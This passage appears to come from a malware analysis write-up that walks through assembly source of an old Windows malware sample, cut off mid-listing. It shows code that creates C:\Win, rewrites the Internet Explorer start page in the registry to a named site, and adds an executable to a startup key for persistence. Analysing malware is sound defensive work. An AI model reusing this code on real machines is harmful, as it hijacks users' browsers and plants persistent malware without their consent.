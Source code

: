 ----------

## **3. Creating a Directory: C:\Win**

A new directory `C:\Win` is created to store additional malware components.


```assembly
push 00000000h
push offset dossier
call CreateDirectoryA           ; Create C:\Win
```

----------

## **4. Modifying Internet Explorer Homepage**

The malware changes the **Internet Explorer start page** to `"http://kadosh.multimania.com"`.


```assembly
push offset l
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE2
push 80000001h                  ; HKEY_CURRENT_USER
call RegCreateKeyExA

push 05h
push offset DONNEE2             ; "http://kadosh.multimania.com"
push 01h
push 0
push offset NOM2                ; Start Page
push p
call RegSetValueExA             ; Modify registry value

push 0
call RegCloseKey                ; Close registry
```

----------

## **5. Adding Persistence in Startup Registry Key**

The malware ensures its execution at startup by adding `C:\Win\kill_cih.exe` to the registry.


```assembly
push offset l
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE3
push 80000002h                  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE3             ; "C:\Win\kill_cih.exe"
push 01h
push 0
```